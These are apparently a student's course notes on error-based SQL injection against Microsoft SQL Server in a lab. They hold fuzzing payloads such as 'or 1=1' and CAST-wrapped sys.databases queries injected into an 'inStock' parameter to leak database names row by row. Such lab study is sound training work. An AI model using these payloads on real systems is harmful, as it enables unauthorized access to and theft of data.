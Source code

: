 ```bash
000000003:   500        0 L      15 W       139 Ch      "#"                                                                                                        
000000007:   500        0 L      15 W       139 Ch      "--';"                                                                                                     
000000015:   500        0 L      15 W       141 Ch      "\x3D%20\x27"                                                                                              
000000031:   500        0 L      17 W       152 Ch      "or 0=0 #"                                                                                                 
000000039:   500        0 L      15 W       139 Ch      "' or 1=1 or ''='"                                                                                         
```
Didnt get a `burp` response that was difference than the one before.

With `SQL SERVER` we are able to query all the databases with the sql query  learned from [[7.3 - 7.3.1 Enumerating Microsoft SQL Server Databases]]

```sql
SELECT name FROM sys.databases
```
what we learned with `ERROR` based payloads is that with `SQL SERVER MSSQL` you want to `PREPEND` your query with the `CAST` function.
```sql
CAST ((SELECT name FROM sys.databases) as integer)
```
In the new request plug in the `SQL` above into the `inStock` variable
![[Pasted image 20240820175729.png]]
Hit `CTRL + U` while highlighting or Highlight, and right click to change to `URL-Encoding` to ensure proper processing
![[Pasted image 20240820180231.png]]
Now once we submit it, we get an error saying that we cannot process more than `1` value at a time - the fix, is to request a database `1` row at a time
![[Pasted image 20240820180712.png]]
in the `SQL Console` we can see the query without `CAST` which shows multiple databases, we need to get it to only show 1 at a time
![[Pasted image 20240820181501.png]]

```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```

`FETCH NEXT 1 ROWS ONLY` = Getting SQL SERVER to show only 1 row at a time
`OFFSET 0 ROWS` = Saying to start at the very 1st row
`CAST` because of error based `SQL INJECTION` with SQL Server

Now place in the query, `CTRL + U` to `URL Encode` and send the request
![[Pasted image 20240820182051.png]]
make sure the `name=` variable is empty and we get the `1st` database named `app`
![[Pasted image 20240820182425.png]]
Now just increase the `OFFSET` to get the next row and eventually the `OFFSET` will overflow and cause an error
```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
copy the `SQL` string into the `inStock` variable and change into `url-encoding` with `ctrl +u`
- exercise database
![[Pasted image 20240820182648.png]]
```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 2 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
master database